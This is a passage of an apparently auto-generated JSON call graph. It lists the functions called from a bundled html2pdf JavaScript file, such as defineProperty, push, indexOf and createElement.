"static/js/html2pdf.bundle.min.js", "target": "drawImage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isGreenPixel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "testRangeBounds"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "testSVG"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "testBase64"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "testForeignObject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "resolve"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "testCORS"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "testResponseType"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "unwrapExports"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCommonjsModule"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toCodePoints"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "fromCodePoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "decode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "polyUint16Array"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "polyUint32Array"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "unwrapExports"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCommonjsModule"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperties"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperties"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperties"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_classCallCheck"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createTrieFromBase64"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_classCallCheck"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_createClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "unwrapExports"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCommonjsModule"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperties"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperties"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperties"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "sliceIterator"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "next"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "sliceIterator"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_interopRequireDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_interopRequireDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_toConsumableArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "from"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_classCallCheck"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "break"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "break"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "break"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "break"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "codePointsToCharacterClasses"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isAdjacentWithSpaceIgnored"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "previousNonSpaceClassType"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_lineBreakAtIndex"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "nonstarter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "alphabetics"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "alphabetics"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "lineBreakAtIndex"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "codePointsToCharacterClasses"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_slicedToArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_lineBreakAtIndex"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "cssFormattedClasses"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "codePointsToCharacterClasses"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_slicedToArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "inlineBreakOpportunities"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "cssFormattedClasses"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_slicedToArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_lineBreakAtIndex"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_classCallCheck"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_createClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "cssFormattedClasses"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_slicedToArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "next"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "unwrapExports"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCommonjsModule"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "unwrapExports"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCommonjsModule"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_interopRequireDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_interopRequireDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "breakWords"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "unwrapExports"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCommonjsModule"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_interopRequireDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_interopRequireDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_classCallCheck"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_classCallCheck"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseTextBounds"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "splitText"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "splitText"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getWrapperBounds"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "replaceChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "replaceChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getRangeBounds"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setStart"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setEnd"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "fromClientRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "unwrapExports"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCommonjsModule"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperties"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperties"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperties"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_classCallCheck"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_classCallCheck"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_createClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "transform"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "transform"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toUpperCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "capitalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toUpperCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "unwrapExports"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCommonjsModule"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_classCallCheck"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_classCallCheck"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "unwrapExports"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCommonjsModule"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_interopRequireDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_interopRequireDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_interopRequireDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_interopRequireDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_interopRequireDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_interopRequireDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getInputBorderRadius"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "inlineInputElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "inlineFormElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "inlineTextAreaElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "inlineFormElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "inlineSelectElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "inlineFormElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "reformatInputBounds"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "inlineFormElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getComputedStyle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createTextNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "removeChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getInputValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "unwrapExports"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCommonjsModule"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_interopRequireDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_interopRequireDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_interopRequireDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getListOwner"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "inlineListItemElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getComputedStyle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getAbsoluteValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getAbsoluteValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getAbsoluteValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "appendChild"}, {"confidence": 